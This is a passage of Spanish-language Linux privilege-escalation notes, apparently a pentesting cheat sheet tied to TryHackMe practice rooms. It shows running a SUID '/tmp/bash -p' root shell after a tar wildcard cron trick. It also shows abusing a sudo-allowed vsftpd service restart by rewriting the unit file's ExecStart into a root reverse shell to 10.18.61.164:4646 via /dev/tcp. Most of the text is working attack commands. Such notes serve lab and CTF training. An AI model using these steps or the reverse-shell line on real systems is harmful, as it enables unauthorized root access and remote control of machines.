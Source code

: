 despues de esperar hasta que la tarea cron se ejecute podemos lanzar una shell como root:

```bash
/tmp/bash -p
```

[Wildcards Tar](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

## SERVICE SUDO MISCONFIGURATION

Si en caso de tener la ejecucion como sudo lo siguiente:

```bash
sudo -l

# (ALL : ALL) /usr/sbin/service vsftpd restart
```

y de tener acceso de escritura en el servicio afectado (vsftpd), podemos aprovecharnos de eso:

verificacion de la ruta del servicio.

```bash
systemctl status vsftpd

# ...loaded (/lib/systemd/system/vsftpd.service; enabled;
```

```bash
ls -la /lib/systemd/system/vsftpd.service
```

si podemos escribir agregamos o reemplazamos lo siguiente:

```bash
nano /lib/systemd/system/vsftpd.service

...
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.18.61.164/4646 0>&1"
User=root
...
```

ahora ejecutamos el servicio modificado:

```bash
systemctl deamon-reload #para que no de errores

sudo /usr/sbin/service vsftpd restart
```

y tendremos una conexion reversa

**fuente y practicar**

- [https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)
- [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)
- [https://jayngng.github.io/blog/ide-thm/](https://jayngng.github.io/blog/ide-thm/)

## Explotacion de kernel

